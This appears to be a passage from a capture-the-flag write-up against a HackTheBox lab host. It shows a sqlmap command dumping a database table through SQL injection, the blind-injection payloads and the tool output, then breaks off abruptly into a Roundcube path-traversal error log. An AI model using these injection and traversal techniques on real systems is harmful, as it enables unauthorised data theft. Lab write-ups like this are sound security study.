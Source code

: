 ```

|  Database | Service |
|---|---|
| db_sfms  |  Student File Management System |
|  erms_db |  Simple Exam Reviewer Management System |
| roundcubedb  |  RoundCube (obviously)  |

Okay so the ```credentials``` we've got are from the ```Student File Management System```, lets examine the database, maybe we can get further information on the system.

By dumping the storage table, we can see that there exists a ```PDF``` we might need to get a hold of.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://exam.seventeen.htb/?p=take_exam&id=1" -batch -D db_sfms -T storage --dump
        ___
       __H__                                                                                                                                                
 ___ ___[.]_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:11:45 /2022-07-20/

[12:11:46] [INFO] resuming back-end DBMS 'mysql' 
[12:11:46] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=5d12c79fd49...8219915b25'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 1565=1565 AND 'Vlli'='Vlli

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=take_exam&id=1' AND (SELECT 8047 FROM (SELECT(SLEEP(5)))Verc) AND 'RSwQ'='RSwQ
---
[12:11:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.2.34, PHP, Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12
[12:11:46] [INFO] fetching columns for table 'storage' in database 'db_sfms'
[12:11:46] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[12:11:46] [INFO] retrieved: 5
[12:11:47] [INFO] retrieved: store_id
[12:11:49] [INFO] retrieved: filename
[12:11:51] [INFO] retrieved: file_type
[12:11:54] [INFO] retrieved: date_uploaded
[12:11:57] [INFO] retrieved: stud_no
[12:11:59] [INFO] fetching entries for table 'storage' in database 'db_sfms'
[12:11:59] [INFO] fetching number of entries for table 'storage' in database 'db_sfms'
[12:11:59] [INFO] retrieved: 1
[12:11:59] [INFO] retrieved: 2020-01-26, 06:57 PM
[12:12:05] [INFO] retrieved: application/pdf

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)